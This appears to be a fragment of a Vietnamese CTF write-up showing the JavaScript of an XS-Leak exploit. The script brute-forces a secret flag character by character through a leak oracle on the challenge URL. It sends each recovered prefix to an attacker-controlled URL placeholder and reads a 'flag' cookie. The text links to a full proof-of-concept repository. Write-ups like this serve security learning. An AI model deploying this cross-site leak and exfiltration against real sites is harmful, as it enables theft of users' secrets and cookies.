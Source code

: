 ```js
        const solve = async (char) => {
            const leaked = await leak(`<%= CHALL %>?q=${flag.slice(-3) + char}`);
            if (leaked) {
                flag += char;
                await fetch(`<%= OUR_URL %>?flag=${flag}`);
                return true;
            }
            return false;
        }

        const main = async () => {
            let promises = [];
            while (true) {
                for (let c of charset) {
                    promises.push(solve(c));
                    if (promises.length === 40 || charset.indexOf(c) === charset.length - 1) {
                        const results = await Promise.all(promises);
                        promises = [];
                    }
                }
            }
        };

        

        async function sleep(ms) {
            return new Promise(resolve => setTimeout(resolve, ms));
        }
        console.log(`Running...`);
        let flag = Cookies.get("flag");
        main();

    </script>
```

Mình đã xây dựng đầy đủ POC ở [đây](https://github.com/rayinaw/xsleak-server/tree/main/Chrome-URL-Length-Inflation-Server).
